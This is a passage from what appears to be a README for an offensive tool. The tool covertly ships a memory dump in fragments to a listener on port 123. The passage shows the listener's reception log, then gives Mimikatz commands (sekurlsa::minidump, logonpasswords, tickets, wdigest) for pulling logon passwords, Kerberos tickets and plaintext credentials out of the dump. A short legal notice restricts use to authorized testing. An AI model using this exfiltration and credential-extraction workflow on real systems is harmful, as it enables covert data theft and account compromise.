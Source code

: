 ### Receiver (Listener)

```plaintext
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

## Analyzing the Dump with Mimikatz

Once `dump_memory.bin` is obtained, use Mimikatz to extract sensitive information:

- **Download Mimikatz:**
  Get the latest version from the official GitHub repository: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

- **Run Mimikatz:**
  Open a command prompt with administrative privileges and navigate to the Mimikatz directory.

- **Load and Analyze the Memory Dump:**
  ```shell
  mimikatz # sekurlsa::minidump dump_memory.bin
  mimikatz # sekurlsa::logonpasswords
  ```
  The first command loads the memory dump.

  The second command extracts and displays logon credentials.

- **Extract Additional Information:**
  ```shell
  mimikatz # sekurlsa::tickets
  mimikatz # sekurlsa::wdigest
  ```
  `sekurlsa::tickets` extracts Kerberos tickets.

  `sekurlsa::wdigest` retrieves plaintext credentials stored by WDigest.

## Legal Notice

This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY. Use it only on systems you own or for which you have explicit permission to test. Unauthorized use is illegal and unethical.
